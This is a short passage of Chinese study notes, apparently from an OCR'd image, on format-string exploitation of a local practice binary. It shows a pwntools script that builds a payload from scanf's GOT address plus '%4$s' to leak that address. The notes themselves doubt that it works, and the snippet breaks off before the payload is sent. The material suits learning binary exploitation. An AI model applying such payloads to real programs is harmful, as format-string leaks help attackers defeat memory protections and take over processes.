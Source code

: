 

- 输出 scanf 地址的脚本，疑似由于某些额外的保护措施/gcc的影响，导致无法输出scanf的地址

```python
from pwn import *   # 分析 leakmemory.c 的脚本 可以输出 scanf 的地址 # 有效性存疑
context.log_level = "DEBUG"
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']  # __isoc99_scanf 的got表项地址
print("__isoc99_scanf_got: ", hex(__isoc99_scanf_got))  # __isoc99_scanf_got:  0x804c014
payload = p32(__isoc99_scanf_got) + b'%4$s' # scanf 的got表地址 + %4$s
print("payload:", payload) # payload: b'\x14\xc0\x04\x08%4$s'
